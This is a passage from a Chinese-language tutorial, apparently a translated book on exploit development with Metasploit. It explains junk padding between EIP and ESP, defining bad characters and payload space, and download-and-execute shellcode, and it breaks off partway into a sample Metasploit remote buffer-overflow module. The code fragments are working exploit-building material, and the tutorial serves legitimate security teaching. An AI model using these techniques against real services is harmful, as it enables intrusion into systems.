 ## 填充空间

此处的一点是，有时 ESP 字段中发送的数据可能不会从数据的实际开始处开始。在这种情况下，如果 EIP 和 ESP 之间存在差距，我们将创建一个新变量，并用实际数据中缺少的字符数填充它。假设我们发送`ABCDEF`到 ESP；但是，当我们使用**免疫调试器**进行分析时，我们得到的内容仅为`DEF`。在本例中，我们缺少三个字符。因此，我们将创建一个三个字节的变量，并在 EIP 之后再发送外壳代码。这意味着我们正在用三个字节的随机数据填充 EIP 和 ESP 之间的空间。

在本例中，我们将把脚本修改为以下代码段：

```
my $junk2="\x44\x44\x44"; Add this line to Variables
print SOCKET $junk. $eip. $junk2\. $esp."\n"; Modify to include junk2
```

我们将第一行附加到变量声明部分，并修改数据，将新创建的变量包含在`print SOCKET`行中。

# 完成漏洞利用

在完成了为利用漏洞编写收集基本信息的困难会话之后，现在让我们最终深入编写利用漏洞的 Metasploit 代码，并完全拥有一个目标。

## 判定不良字符

有时可能会发生这样的情况：在设置好所有可以利用的东西之后，我们可能永远无法利用系统。或者，我们的攻击可能已经完成，但负载无法执行。当变量数据或有效负载中生成的某些字符无法执行时，可能会发生这种情况。这将使整个漏洞无法使用，我们将努力使外壳或流量计返回系统。在这种情况下，我们需要确定阻止执行的错误字符。要处理这种情况，最好的方法是找到匹配的漏洞，并在漏洞中使用其中的坏字符。

我们需要在漏洞的`Payload`部分定义这些坏字符。让我们看一个例子：

```
  'Payload'        =>
        {
          'Space'    => 800,
          'BadChars' => "\x00\x20\x0a\x0d",
          'StackAdjustment' => -3500,
        },
```

上一节参考`/exploit/windows/ftp`下的`freeftpd_user.rb`文件。

## 确定空间限制

`Payload`中的`Space`变量确定要加载外壳代码的空间。我们需要分配足够的空间来加载有效负载的外壳代码。如果有效负载较大且分配的空间小于外壳代码，则不会执行。此外，在编写自定义漏洞利用时，外壳代码应尽可能小。我们可能会遇到这样的情况：可用空间仅为 200 字节，但可用外壳代码至少需要 800 字节的空间。在这种情况下，我们可以在*下载和执行*机制上使用外壳代码。它将首先下载第二个外壳代码并执行它，因为它本身是一个小使用者。

### 提示

有关各种有效载荷的较小外壳代码，请访问[http://www.shell-storm.org/shellcode/](http://www.shell-storm.org/shellcode/) 。

## 在 Metasploit 下制作

让我们为之前使用 Perl 脚本崩溃的应用程序创建示例利用代码。让我们看看代码：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote

      include Msf::Exploit::Remote::Tcp

      def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Example Attack On Port 200',
                        'Description'    => %q{
                                        Buffer Overflow on port number 200
                                             },
                        'Author'         => [ 'Nipun Jaswal' ],
                        'DefaultOptions' =>
                                {
```